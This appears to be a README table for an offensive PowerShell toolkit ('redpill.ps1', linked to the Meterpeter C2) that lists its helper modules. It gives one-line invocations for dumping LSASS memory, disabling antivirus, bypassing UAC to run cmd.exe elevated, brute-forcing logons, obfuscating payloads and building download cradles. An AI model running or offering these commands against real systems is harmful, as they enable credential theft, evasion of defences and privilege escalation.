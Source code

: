 <br />

|Script Name|Description|Status|
|---|---|---|
|geoLocation.html|Google maps GeoLocation api|Manual execution|
|BATtoEXEconverter.bat|Convert Batch script to standalone executables {exe}|Drag\drop manual exec|
|ps2exe.ps1|Convert powershell script to standalone executables {exe}|Manual execution|
|vbs2exe.exe|Convert vbscripts to to standalone executables {exe}|Manual execution|
|SpawnPowershell.cs|Auxiliary module of -CsOnTheFly parameter|.\redpill.ps1 -CsOnTheFly Execute -Uri https://|
|ConfuserEx.zip|Auxiliary module of -CsOnTheFly parameter|.\redpill.ps1 -CsOnTheFly -Obfuscate True|
|compiled.exe|Auxiliary module of -GetPasswords parameter|.\redpill.ps1 -GetPasswords Enum|
|NSudo.exe|Auxiliary module of -UacMe parameter|.\redpill.ps1 -UacMe Elevate -Execute "cmd.exe"|
|DWD|Auxiliary module of -DisableAV parameter|.\redpill.ps1 -DisableAV Stop,Start|
|WinBruteLogon|Auxiliary module of -PhishCreds 'Brute' argument|brute force user account password|
|rockme.txt|Dicionary file for brute-force attacks|Manual \ Automatic_Download execution|
|comsvcs.dll|Dump Lsass.exe process memory data|.\redpill.ps1 -DumpLsass all|
|Crandle_Builder.vbs|Cmdlet of @Meterpeter C2 to create Download_Crandle.vbs|Requires @Meterpeter C2|
